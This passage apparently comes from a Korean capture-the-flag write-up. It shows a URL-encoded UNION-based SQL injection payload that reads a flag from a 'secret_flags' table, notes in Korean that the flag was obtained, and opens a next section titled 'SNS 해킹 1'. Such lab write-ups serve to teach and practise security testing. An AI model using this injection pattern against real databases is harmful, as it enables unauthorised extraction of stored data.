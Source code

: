 ```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+flag_value+from+secret_flags+limit+1,1)--+ 
```

결과
![spec1 flag](./screenshots/spec1_flag.png)

- **flag**를 얻을 수 있었다.

---

### SNS 해킹 1

![sns 1 board](./screenshots/sns_1_board.png)
